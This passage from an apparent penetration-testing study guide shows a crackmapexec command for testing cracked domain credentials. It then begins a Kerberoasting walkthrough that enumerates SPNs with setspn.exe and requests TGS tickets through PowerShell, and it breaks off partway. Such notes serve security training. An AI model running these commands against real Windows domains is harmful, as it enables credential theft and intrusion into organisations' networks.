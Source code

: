 #### **6. Test Access with Cracked Credentials**
Command:
```bash
 sudo crackmapexec smb <DC-IP> -u <USERNAME> -p <PASSWORD>
```

Example Output:
```plaintext
SMB         172.16.5.5      445    <DC_NAME>  [+] <DOMAIN>\<USERNAME>:<PASSWORD> (Pwn3d!)
```

---

# Kerberoasting: Windows

Kerberoasting is a post-exploitation technique used to extract and crack Kerberos tickets for sensitive service accounts in a Windows domain. Below is a detailed guide, providing both context and explanations for the commands involved in semi-manual and automated approaches.



### **1. Overview of Kerberoasting**
- **Purpose**: 
  - Retrieve Kerberos Ticket Granting Service (TGS) tickets for accounts with SPNs.
  - Crack the encrypted tickets offline to reveal plaintext passwords.
- **Prerequisites**:
  - A foothold in the target domain (valid credentials for a domain account).
  - Permission to request TGS tickets, which any authenticated domain user typically has.


### **2. Semi-Manual Method for Kerberoasting**

This approach is helpful when automated tools are unavailable or blocked. It combines built-in Windows tools and manual extraction methods.



#### **Step 1: Enumerate Service Principal Names (SPNs)**
- Use `setspn.exe` (a built-in Windows binary) to query the domain for SPNs.

```shell
 setspn.exe -Q */*
```

- **Explanation**:
  - The `-Q` flag queries for SPNs matching the wildcard `*/*`, which lists all SPNs in the domain.
  - SPNs are unique identifiers for services running under specific accounts (e.g., `MSSQLSvc`, `backupjob`).
  - Output includes **user accounts** and **computer accounts**. Focus on user accounts as these can have weak passwords.


#### **Step 2: Request TGS Tickets Using PowerShell**
- Request a TGS ticket for a specific SPN.

```powershell
 Add-Type -AssemblyName System.IdentityModel
 New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
